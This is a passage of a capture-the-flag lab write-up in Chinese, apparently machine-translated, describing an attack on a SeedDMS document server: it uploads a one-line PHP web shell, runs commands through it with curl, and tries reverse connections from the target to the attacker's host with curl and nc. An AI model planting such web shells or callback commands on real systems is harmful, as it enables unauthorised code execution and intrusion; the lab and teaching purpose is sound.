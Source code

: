     # line below if for Apache 2.2
    <ifModule !mod_authz_core.c>
    deny from all
    Satisfy All
    </ifModule>
    
    # section for Apache 2.2 and 2.4
    <ifModule mod_autoindex.c>
    IndexIgnore *
    </ifModule>
    

在 Apache 上，这将阻止访问 中的任何文件。但同样，这是NGINX。`/data`

### 网络外壳

看起来我无权上传到根目录，但我会开始在文件夹中挖掘。一旦我到达，有两个目录，米歇尔和杰克：`/Docs/Users/`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210514125936310.png) 

基于图标没有灰显，我可能对米歇尔有一些权限。

单击该按钮，顶部没有一堆选项，包括添加文档：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210514130024685.png) 

我会上传我最喜欢的简单PHP网络外壳：

    <?php system($_REQUEST["cmd"]); ?>
    

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210514130144165.png) 

文档 ID 为 31。

    oxdf@parrot$ curl http://dms-pit.htb/seeddms51x/data/1048576/31/1.php?cmd=id
    uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
    

这就是代码执行！此文件每5-10分钟删除一次，因此我可能需要再次上传，并且文档ID也将增加。

### 反向外壳故障

我尝试了一堆东西来获得反向外壳，但它们都失败了。当我甚至无法连接到我的主机时，我猜可能是防火墙，但它仍然表现得很奇怪。`curl`

    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=curl http://10.10.14.7 2>&1'
    

查看与我的连接，它也失败了：`nc`

    oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=nc 10.10.14.7 443 2>&1'
    Ncat: Permission denied.
    